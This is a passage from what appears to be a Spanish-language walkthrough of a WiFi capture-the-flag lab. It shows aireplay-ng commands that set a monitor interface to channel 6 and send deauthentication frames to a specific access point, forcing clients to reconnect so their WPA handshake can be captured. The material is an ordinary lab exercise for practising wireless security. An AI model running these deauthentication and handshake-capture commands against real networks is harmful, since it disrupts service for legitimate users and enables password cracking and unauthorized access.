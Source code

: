 ![](/assets/images/wifi-challenge-lab2/psk2.png)

Ahora en otra ventana vamos a usar `aireplay-ng` para desautenticar a los clientes y cuando se autentiquen otra vez obtener el **handshake**

```bash
❯ iwconfig wlan0mon channel 6
❯ aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon
```

Ahora paramos el `airodump-ng` y iniciamos el ataque pero ahora agregando el `-c 6` por que sabemos que esta en ese canal

Ahora enviamos los paquetes

![](/assets/images/wifi-challenge-lab2/psk3.png)
